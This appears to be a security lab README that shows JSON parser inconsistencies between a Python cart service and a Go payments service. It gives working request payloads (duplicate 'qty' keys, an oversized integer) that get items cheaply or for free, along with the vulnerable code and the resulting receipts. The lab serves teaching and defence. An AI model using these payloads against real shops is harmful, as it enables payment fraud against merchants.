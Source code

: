 # Lab 1: Free Purchases in an E-commerce Application
<p align="center">
  <img src="../media/lab1.jpg">
</p>

###
This lab demonstrates a vulnerability pattern when two services use JSON parsers with [inconsistent duplicate key precedence](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities#1-Inconsistent%20Duplicate%20Key%20Precedence). The Cart service will decode a positive quantity, while the Payment service will decode a negative quantity. In this example, this will lead to an attacker receiving items without paying for them.

There are two services:
* **Cart API (port 5000)**: Python, stdlib JSON
* **Payments API (port 5001)**: Go, buger/jsonparser library

### Architecture diagram


### Setup
Run docker-compose from the `lab1` directory:

```bash
docker-compose up -d
```

### Part 1: Inconsistent Duplicate Key Precedence

In this example, we're looking at a checkout and payment processing pipeline. We'll have a positive quantity used for fulfillment, and a negative quantity used for payment process. In the following request, we send a duplicate `qty` key to cause the Cart service (last key precedence) to incorrectly validate the JSON document before passing it to the Payments service (first key precedence).

Send a request to the Cart API.
```
curl localhost:5000/cart/checkout -H "Content-Type: application/json" -d @lab1_req.json
```

Request (`lab1_req.json`):
```
{
	"orderId": 10,
        "cart": [
        {
            "id": 0,
            "qty": 5
        },
        {
            "id": 1,
            "qty": -1,
            "qty": 1
        }
    ]
}
```

The Cart service enforces business logic through JSON Schema. However, JSON Schema libraries rely on parsed objects, so the duplicate key is not observed. The numeric range check (`0 <= x <= 10`) succeeds in the Cart service as the last duplicated `qty` key is preferred, which is a positive value.

Now, that the JSON body is validated, the original JSON string is forwarded to the Payments service:

```python
@app.route('/cart/checkout', methods=["POST"])
def checkout():
    # 1a: Parse JSON body using Python stdlib parser.
    data = request.get_json(force=True)

    # 1b: Validate constraints using jsonschema: id: 0 <= x <= 10 and qty: >= 1
    jsonschema.validate(instance=data, schema=schema)

    # 2: Process payments
    resp = requests.request(method="POST",
                            url="http://payments:8000/process",
                            data=request.get_data(),
                            )
```

However, the Payments API uses a JSON parser with first key precedence. Leading to a parsed negative value for `qty` reducing the total purchase price.

```golang
func processPayment(w http.ResponseWriter, r *http.Request) {
    var total int64
    total = 0
    data, _ := ioutil.ReadAll(r.Body)
    jsonparser.ArrayEach(
            data,
            func(value []byte, dataType jsonparser.ValueType, offset int, err error) {
                id, _ := jsonparser.GetInt(value, "id")
                qty, _ := jsonparser.GetInt(value, "qty")
                total = total + productDB[id]["price"].(int64) * qty;
            },
        "cart")

    io.WriteString(w, fmt.Sprintf("{\"total\": %d}", total))
}
```

The Cart API returns a receipt for the six items including the total payment charged by the Payments API. Note: the $700 total has been reduced to $300:

```
Receipt:
5x Product A @ $100/unit
1x Product B @ $200/unit

Total Charged: $300
```

### Part 2: Inconsistent Large Number Decode

In this example, we exploit differences in [large number decoding across JSON parsers](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities#Example-Inconsistent%20Large%20Number%20Decode) to get items for free.

Here, the Cart service parser will faithfully decode the large number in the JSON document, but the JSON parser in the Payments API will decode the value as 0.

**Note:** This particular integer overflow is detected by `buger/jsonparser`. However, 0 is returned when there are errors, and the errors are unchecked. After a quick GitHub code search many users appear to ignore the error code, which contribute to outcomes seen here. However, even with error checking, in some libraries significant rounding can also occur to accommodate the underlying data types.

```
curl localhost:5000/cart/checkout -H "Content-Type: application/json" -d @lab1_alt_req.json
```

**Request (`lab1_alt_req.json`):**
```
POST /cart/checkout HTTP/1.1
...

{
	"orderId": 10,
    "cart": [
        {
            "id": 8,
            "qty": 999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
        }
    ]
}

```

**Response:**
```
Receipt:
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999x $100 E-Gift Card @ $100/unit

Total Charged: $0
```

As shown above, the payments service did not charge the attacker for the E-Gift card credit.
